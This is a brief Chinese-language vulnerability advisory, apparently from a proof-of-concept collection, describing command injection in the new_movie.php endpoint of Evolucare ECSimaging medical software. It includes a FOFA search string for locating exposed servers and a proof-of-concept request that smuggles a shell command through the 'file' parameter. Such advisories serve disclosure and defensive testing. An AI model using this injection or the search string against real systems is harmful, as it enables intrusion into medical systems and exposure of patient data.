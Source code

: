 # Evolucare Ecsimaging new_movie.php 远程命令执行漏洞

## 漏洞描述

EVOLUCARE ECSimage是一款国外使用的医疗管理系统，研究发现其new_movie.php接口中存在命令注入漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

```
EVOLUCARE Evolucare Ecsimaging 版本< 6.21.5
```

## FOFA

```
body="ECSimaging"
```

## 漏洞复现

登录页面

![](./images/202205241447357.png)

验证POC

```
/new_movie.php?studyUID=1&start=2&end=2&file=1;pwd
```

![](./images/202205241447391.png)